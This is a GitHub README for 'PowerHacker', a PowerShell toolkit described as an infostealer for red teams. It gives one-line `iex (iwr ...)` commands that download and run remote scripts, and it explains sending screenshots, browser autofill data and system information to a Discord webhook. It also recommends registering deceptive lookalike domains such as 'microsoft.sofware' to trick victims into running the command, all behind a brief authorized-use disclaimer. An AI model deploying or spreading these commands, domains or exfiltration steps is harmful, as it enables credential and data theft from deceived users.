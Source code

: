 
# PowerHacker :zap: README

Welcome to PowerHacker, a PowerShell-based toolkit designed for penetration testers and cybersecurity professionals. PowerHacker prefers utilizing valuable Top-Level Domains (TLDs) and the setup of subdomains to facilitate efficient red team operations and security assessments.

- A simple command like `iex (iwr calculator.run)` is enough to give full control over a windows system. 

## :lock: Security Notice

Security and ethical use are paramount. PowerHacker is intended for **authorized penetration testing** and/or **educational purposes only**. Misuse of PowerHacker may result in legal consequences. Ensure you have explicit permission to test target systems with PowerHacker.

- Safe test scripts: Try run either of these in a command prompt or powershell respectively:

1. In Powershell:
  - `iex (iwr t.ly/YUz2A)`

2. In CMD or press Windows key + R:
  - `powershell iex (iwr t.ly/YUz2A)`

## :gear: Setup

To leverage PowerHacker for your assessments:

1. Clone the repository:
    ```
    git clone https://github.com/pentestfunctions/powerhacker.git
    ```

2. Navigate to the PowerHacker directory:
    ```
    cd powerhacker
    ```

3. Update the `$WebhookUrl` in the scripts to point to your Discord webhook for data exfiltration. To get a Discord webhook URL:
    - Create a Discord server or use an existing one.
    - Go to Server Settings > Integrations.
    - Click on "Webhooks" and then "New Webhook".
    - Customize your webhook, copy the URL, and use it in the script.

4. Upload the ps1 file to your github account.

5. Register a domain for best outcome, for example:
   - `fileexplorer.run`
   - You can also then add subdomains such as `windows.fileexplorer.run`
   - Some other good TLD ideas: `software` such as `microsoft.sofware` or `calculator.run`

## :rocket: Usage

PowerHacker simplifies the redirection of subdomains to your raw GitHub page containing the PowerShell code. To execute, use:

```
iex (iwr windows.fileexplorer.run)
```

This command downloads and executes the script, uploading all collected data to the specified Discord webhook.

- Once the files are on your discord webhook, you can decode the .wav data using the code here:
https://github.com/pentestfunctions/powershell-document-to-wav

## :warning: Features

- **TakeScreenshot**: Captures the current screen.
- **Convert-JsonToWav**: Converts JSON data to WAV format.
- **Get-BrowserData-AutoFill**: Extracts autofill information from browsers.
- **Comprehensive System Info**: Collects detailed system information, including OS version, build number, and more.

## :key: Emphasis on Security

- Always ensure you are in compliance with all applicable laws and regulations.
- Use PowerHacker responsibly to enhance security posture, not to undermine it.
- Verify the integrity and confidentiality of the data collected during your assessments.

## :question: Support

For questions, issues, or feature requests, use GitHub Issues within the repository.

## :memo: Contributing

Contributions to PowerHacker are welcome. Please submit pull requests with clear descriptions of changes and enhancements.

## :balance_scale: License

PowerHacker is released under [MIT License](LICENSE). By using PowerHacker, you agree to the terms of the license and acknowledge the tool's intended purpose for legal, authorized cybersecurity assessments only.

